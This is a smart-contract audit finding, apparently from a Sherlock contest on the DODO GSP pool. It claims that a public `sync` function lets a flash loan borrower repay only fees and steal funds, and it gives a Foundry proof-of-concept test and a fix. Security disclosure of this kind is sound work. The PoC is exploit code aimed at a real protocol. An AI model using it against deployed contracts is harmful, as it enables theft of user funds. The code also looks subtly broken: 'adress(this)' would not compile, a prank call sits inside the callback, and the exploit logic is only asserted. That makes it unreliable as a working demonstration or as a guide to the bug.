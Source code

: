 Massive Fern Bobcat

high

# Flash loan borrower can steal funds

## Summary
The `GSPTrader.sol` contract is vulnerable to a flash loan exploit due to the public accessibility of the `sync` function in `GSPVault.sol`. This vulnerability allows a user to manipulate the contract state during a flash loan, potentially leading to the theft of funds.


## Vulnerability Detail
The flash loan function in `GSPTrader.sol` can be exploited through the following steps:
1. The user obtains a flash loan.
2. The user calls the public `sync` function in `GSPVault.sol`, which synchronizes the reserves with the current token balances.
3. The user repays the flash loan with the exact `_MT_FEE_BASE_` and `_MT_FEE_QUOTE_` token amounts.
4. The `require` check in `GSPTrader.sol` passes because the balances match the reserves, allowing the flash loan to be successfully completed without actually returning the borrowed funds.

This exploit is made possible because the `sync` function can be called by any user, allowing them to manipulate the reserve balances during the flash loan process.


## Impact
This vulnerability can lead to the theft of funds from the contract, as users can exploit the flash loan mechanism to withdraw more tokens than they return. It undermines the security and integrity of the flash loan process and the contract as a whole.


## Code Snippet
- **Location of Issue**: [GSPTrader.sol#L122-L128](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L122-L128)
- **Relevant Code Section in `GSPVault.sol`**:
  ```solidity
  function sync() external nonReentrant {
      _sync();
  }
  ```
  
  POC exploit code  - paste it in GPSTrader.t.sol
  ```solidity
      function test_flashLoadSteal() public {
         vm.startPrank(DAI_WHALE);
        dai.transfer(USER, BASE_RESERVE + BASE_INPUT);
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER, QUOTE_RESERVE + QUOTE_INPUT);
        vm.stopPrank();

        // User buys shares
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE);
        gsp.buyShares(USER);

         // flashloan - sellquote
        (uint256 amountBase, , ,) = gsp.querySellQuote(USER, QUOTE_INPUT);
        usdc.transfer(address(gsp), QUOTE_INPUT);
        gsp.flashLoan(amountBase + 1e18, 0, adress(this), "");
    }

     function DSPFlashLoanCall(
        address sender,
        uint256 baseAmount,
        uint256 quoteAmount,
        bytes calldata data
    ) external {
       vm.startPrank(USER);
       gsp.sync();
        dai.transfer(address(gsp), _MT_FEE_BASE_);
        usdc.transfer(address(gsp), _MT_FEE_QUOTE_);
    }
    ```

## Tool used

Manual Review

## Recommendation
Restrict the access to the sync function in GSPVault.sol to prevent it from being called by unauthorized users. This can be achieved by adding an access control mechanism, such as an onlyOwner or onlyAuthorized modifier.
By limiting the public accessibility of the sync function, the contract can prevent malicious actors from manipulating the reserve balances during a flash loan, thereby safeguarding the funds and maintaining the integrity of the flash loan process.